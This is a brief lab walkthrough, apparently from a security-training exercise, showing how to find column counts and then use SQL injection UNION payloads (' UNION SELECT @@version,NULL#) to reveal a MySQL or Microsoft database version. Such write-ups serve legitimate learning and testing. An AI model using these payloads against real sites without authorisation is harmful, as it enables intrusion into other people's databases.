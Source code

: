 ## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Step 1

Checking number of column

<img src="../Images/ps1.png" width="550" height="200">

## Step 2

Check which column we can insert in

<img src="../Images/ps2.png" width="550" height="200">

Here we are able to insert in both column

<img src="../Images/ps3.png" width="550" height="200">

## Step 3

Now we use this payload

' UNION SELECT @@version,NULL#

Or

' UNION SELECT NULL,@@version#

Encode it to URL

<img src="../Images/ps4.png" width="550" height="200">

Here we get the answer

<img src="../Images/ps5.png" width="550" height="200">

---
